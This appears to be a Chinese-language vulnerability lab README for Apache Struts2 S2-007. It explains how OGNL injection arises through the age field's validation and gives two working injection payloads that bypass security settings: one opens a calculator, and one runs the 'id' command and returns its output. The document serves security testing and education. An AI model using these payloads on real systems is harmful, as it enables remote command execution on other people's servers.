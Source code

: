 # S2-007 远程代码执行漏洞

影响版本: 2.0.0 - 2.2.3
漏洞详情: http://struts.apache.org/docs/s2-007.html

## 测试环境搭建

```
docker compose build
docker compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

@rickgray 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![](1.jpeg)
